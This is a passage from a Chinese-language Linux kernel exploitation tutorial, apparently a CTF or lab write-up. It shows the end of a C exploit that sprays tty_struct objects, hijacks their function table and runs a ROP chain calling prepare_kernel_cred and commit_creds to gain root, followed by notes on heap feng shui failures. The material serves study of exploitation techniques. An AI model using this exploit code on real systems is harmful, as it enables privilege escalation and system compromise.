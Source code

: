 ```c
  *rop_chain++ = prepare_kernel_cred - base + kernel_base; // 2
  *rop_chain++ = pop_rcx_ret - base + kernel_base;         // 3
  *rop_chain++ = 0;                                        // 4
  *rop_chain++ = mov_rdi_rax_ret - base + kernel_base;     // 5
  *rop_chain++ = commit_creds - base + kernel_base;        // 6
  *rop_chain++ =
      pop_rcx_ret - base +
      kernel_base; // 7 这里的pop
                   // rcx没有什么实际意义，只是作为一个“滑坡”指令把劫持rsp的那个指令滑掉
  *rop_chain++ = 0;                                // 8
  *rop_chain++ = pop_rcx_ret - base + kernel_base; // 9
  *rop_chain++ = 0;                                // a
  *rop_chain++ = pop_rcx_ret - base + kernel_base; // b
  *rop_chain++ = stack_pivot - base + kernel_base; // c
  *rop_chain++ =
      swapgs_restore_regs_and_return_to_usermode - base + kernel_base + 22;
  *rop_chain++ = 0;
  *rop_chain++ = 0;
  *rop_chain++ = user_rip;
  *rop_chain++ = user_cs;
  *rop_chain++ = user_rflags;
  *rop_chain++ = user_sp;
  *rop_chain++ = user_ss;
  *(uint64_t *)&buf[0x418] = g_buf; // 劫持tty_struct的函数表为g_buf
  write(global_fd, buf, 0x420);
  for (int i = 0; i < SPRAY_NUM; i++) {
    ioctl(spray[i], g_buf - 0x10, g_buf - 0x10); // 触发劫持,完成stack pivot
  }

  close(global_fd);

  for (int i = 0; i < SPRAY_NUM; i++) {
    close(spray[i]);
  }

  return 0;
}
```

虽然思路上已经理的比较清晰了，但是在编写这个exp的时候，还是遇到了很多奇奇怪怪的小问题：

首先最开始我是将堆喷射操作，泄露地址操作封装成了两个函数，然后再主函数中调用我封装的函数，但是这样操作遇到了一些问题：**就是泄露操作有时候泄露出来的地址是错误的，并且无法通过后面for循环里面的ioctl触发劫持。**
这个问题我查了下发现了一种可能是正确的说法：是由于**“堆风水失败”导致的利用失败问题**，根本原因在于把喷射逻辑（`open("/dev/ptmx")`）单独封装到一个函数中后，由于**函数调用过程本身对栈和堆的布局产生了影响**，导致了 **堆对象分配的位置和顺序与原来不一致**，最终失去了对目标对象（如 `tty_struct`）的精准覆盖控制。

## Other methods

前面提到的这种stack pivot手法将内核栈迁移到可以控制的内核内存区域上，但是这个手法非常依赖于一个条件良好的gadget和一块较大的我们可以控制的内存区域，这种gadget和内存块并不是在任何情况下都有，所以下面会介绍几种其他的手法。

### AAR/AAW
